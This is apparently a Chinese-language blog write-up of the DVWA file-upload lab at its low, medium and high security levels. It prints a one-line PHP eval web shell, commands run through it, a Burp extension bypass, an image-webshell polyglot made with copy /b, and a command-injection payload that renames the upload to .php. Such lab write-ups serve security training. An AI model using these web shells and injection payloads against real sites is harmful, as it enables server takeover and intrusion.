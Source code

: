 ```yaml
---
layout: post
title: 文件上传漏洞
subtitle: File Upload
date: 2023-08-01 23:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
  - 靶场实战
published: true
number headings: off
---
```

### LOW

the.php

```php
<?php eval($_GET['bckdor'])?> 
```

构造url: <http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=>

```php
phpinfo(); 
system('ls'); 
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```

### MEDIUM

将the.php改为the.jpg

![image.png](https://img.ghostliner.top/vt5Xwv.png)

burpsuit抓取request，修改文件后缀

### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```
